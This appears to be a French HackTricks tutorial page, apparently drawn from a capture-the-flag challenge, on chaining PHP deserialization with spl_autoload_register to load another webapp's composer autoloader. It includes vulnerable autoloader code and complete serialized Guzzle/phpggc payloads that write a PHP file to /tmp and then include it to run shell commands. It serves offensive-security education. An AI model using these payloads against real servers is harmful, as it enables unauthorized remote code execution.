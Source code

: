 # PHP - Désérialisation + Chargement Automatique de Classes

{% hint style="success" %}
Apprenez et pratiquez le Hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Formation AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le Hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Formation GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

Tout d'abord, vous devriez vérifier ce que sont les [**Classes de Chargement Automatique**](https://www.php.net/manual/en/language.oop5.autoload.php).

## Désérialisation PHP + spl\_autoload\_register + LFI/Gadget

Nous sommes dans une situation où nous avons trouvé une **désérialisation PHP dans une webapp** sans **aucune** bibliothèque vulnérable aux gadgets à l'intérieur de **`phpggc`**. Cependant, dans le même conteneur, il y avait une **autre webapp composer avec des bibliothèques vulnérables**. Par conséquent, l'objectif était de **charger le chargeur composer de l'autre webapp** et de l'exploiter pour **charger un gadget qui exploitera cette bibliothèque avec un gadget** de la webapp vulnérable à la désérialisation.

Étapes :

* Vous avez trouvé une **désérialisation** et il **n'y a pas de gadget** dans le code de l'application actuelle
* Vous pouvez abuser d'une fonction **`spl_autoload_register`** comme suit pour **charger n'importe quel fichier local avec l'extension `.php`**
* Pour cela, vous utilisez une désérialisation où le nom de la classe sera à l'intérieur de **`$name`**. Vous **ne pouvez pas utiliser "/" ou "."** dans un nom de classe dans un objet sérialisé, mais le **code** est **en train de remplacer** les **traits d'union** ("\_") **par des barres obliques** ("/"). Ainsi, un nom de classe tel que `tmp_passwd` sera transformé en `/tmp/passwd.php` et le code essaiera de le charger.\
Un **exemple de gadget** sera : **`O:10:"tmp_passwd":0:{}`**
```php
spl_autoload_register(function ($name) {

if (preg_match('/Controller$/', $name)) {
$name = "controllers/${name}";
} elseif (preg_match('/Model$/', $name)) {
$name = "models/${name}";
} elseif (preg_match('/_/', $name)) {
$name = preg_replace('/_/', '/', $name);
}

$filename = "/${name}.php";

if (file_exists($filename)) {
require $filename;
}
elseif (file_exists(__DIR__ . $filename)) {
require __DIR__ . $filename;
}
});
```
{% hint style="success" %}
Si vous avez un **téléchargement de fichier** et que vous pouvez télécharger un fichier avec une **extension `.php`**, vous pourriez **abuser de cette fonctionnalité directement** et obtenir déjà un RCE.
{% endhint %}

Dans mon cas, je n'avais rien de tel, mais il y avait à l'intérieur du **même conteneur** une autre page web composer avec une **bibliothèque vulnérable à un gadget `phpggc`**.

* Pour charger cette autre bibliothèque, vous devez d'abord **charger le chargeur composer de cette autre application web** (car celui de l'application actuelle n'accédera pas aux bibliothèques de l'autre). **Connaissant le chemin de l'application**, vous pouvez y parvenir très facilement avec : **`O:28:"www_frontend_vendor_autoload":0:{}`** (Dans mon cas, le chargeur composer était dans `/www/frontend/vendor/autoload.php`)
* Maintenant, vous pouvez **charger** le **chargeur composer de l'autre application**, donc il est temps de **`générer le phpgcc`** **payload** à utiliser. Dans mon cas, j'ai utilisé **`Guzzle/FW1`**, ce qui m'a permis de **écrire n'importe quel fichier dans le système de fichiers**.
* REMARQUE : Le **gadget généré ne fonctionnait pas**, pour qu'il fonctionne, j'ai **modifié** ce payload **`chain.php`** de phpggc et défini **tous les attributs** des classes **de privé à public**. Sinon, après avoir désérialisé la chaîne, les attributs des objets créés n'avaient aucune valeur.
* Maintenant, nous avons le moyen de **charger le chargeur composer de l'autre application** et d'avoir un **payload phpggc qui fonctionne**, mais nous devons **faire cela dans la MÊME DEMANDE pour que le chargeur soit chargé lorsque le gadget est utilisé**. Pour cela, j'ai envoyé un tableau sérialisé avec les deux objets comme :
* Vous pouvez voir **d'abord le chargeur être chargé puis le payload**

{% code overflow="wrap" %}
```php
a:2:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}}
```
{% endcode %}

* Maintenant, nous pouvons **créer et écrire un fichier**, cependant, l'utilisateur **ne pouvait pas écrire dans n'importe quel dossier à l'intérieur du serveur web**. Donc, comme vous pouvez le voir dans le payload, PHP appelle **`system`** avec un **base64** qui est créé dans **`/tmp/a.php`**. Ensuite, nous pouvons **réutiliser le premier type de payload** que nous avons utilisé comme LFI pour charger le chargeur de composer de l'autre webapp **pour charger le fichier généré `/tmp/a.php`**. Il suffit de l'ajouter au gadget de désérialisation :&#x20;

{% code overflow="wrap" %}
```php
a:3:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}s:6:"Extra3";O:5:"tmp_a":0:{}}
```
{% endcode %}

**Résumé de la charge utile**

* **Charger l'autoload de composer** d'une autre webapp dans le même conteneur
* **Charger un gadget phpggc** pour abuser d'une bibliothèque de l'autre webapp (la webapp initiale vulnérable à la désérialisation n'avait pas de gadget dans ses bibliothèques)
* Le gadget va **créer un fichier avec une charge utile PHP** dessus dans /tmp/a.php avec des commandes malveillantes (l'utilisateur de la webapp ne peut pas écrire dans aucun dossier de aucune webapp)
* La dernière partie de notre charge utile va **charger le fichier PHP généré** qui exécutera des commandes

J'ai dû **appeler cette désérialisation deux fois**. Dans mes tests, la première fois le fichier `/tmp/a.php` a été créé mais pas chargé, et la deuxième fois il a été correctement chargé.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
